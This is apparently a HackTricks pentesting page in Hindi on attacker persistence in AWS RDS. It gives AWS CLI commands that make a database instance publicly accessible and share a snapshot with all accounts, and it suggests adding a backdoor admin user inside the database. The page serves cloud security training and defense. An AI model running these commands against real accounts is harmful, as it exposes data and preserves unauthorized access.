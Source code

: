# AWS - RDS Persistence

{{#include ../../../banners/hacktricks-training.md}}

## RDS

अधिक जानकारी के लिए देखें:

{{#ref}}
../aws-services/aws-relational-database-rds-enum.md
{{#endref}}

### इंस्टेंस को सार्वजनिक रूप से सुलभ बनाएं: `rds:ModifyDBInstance`

इस अनुमति के साथ एक हमलावर **एक मौजूदा RDS इंस्टेंस को सार्वजनिक सुलभता सक्षम करने के लिए संशोधित कर सकता है**।
```bash
aws rds modify-db-instance --db-instance-identifier target-instance --publicly-accessible --apply-immediately
```
### DB के अंदर एक एडमिन यूजर बनाएं

एक हमलावर बस **DB के अंदर एक यूजर बना सकता है** ताकि अगर मास्टर यूजर का पासवर्ड बदल दिया जाए तो भी वह **डेटाबेस तक पहुंच नहीं खोता**।

### स्नैपशॉट को सार्वजनिक बनाएं
```bash
aws rds modify-db-snapshot-attribute --db-snapshot-identifier <snapshot-name> --attribute-name restore --values-to-add all
```
{{#include ../../../banners/hacktricks-training.md}}
